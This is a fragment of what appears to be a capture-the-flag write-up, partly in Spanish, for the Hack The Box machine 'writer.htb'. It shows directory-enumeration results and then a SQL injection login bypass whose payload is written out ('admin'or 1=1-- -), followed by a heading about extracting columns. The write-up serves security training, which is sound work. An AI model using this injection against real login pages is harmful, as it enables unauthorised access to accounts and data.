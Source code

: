 ```ruby
/contact              (Status: 200) [Size: 4905]
/static               (Status: 301) [Size: 309] [--> http://writer.htb/static/]
/logout               (Status: 302) [Size: 208] [--> http://writer.htb/]
/dashboard            (Status: 302) [Size: 208] [--> http://writer.htb/]
/administrative       (Status: 200) [Size: 1443]
/server-status        (Status: 403) [Size: 275]
```

## Exploitation

- SQL Injection in login panel

![](/img2/Pasted%20image%2020250627135704.png)

> En la supuesta query original, la injección quedaría tal que así:

```sql
select * from users where username='admin'or 1=1-- -' and password='admin'
```

- Get all columns 

![](/img2/Pasted%20image%2020250627195907.png)
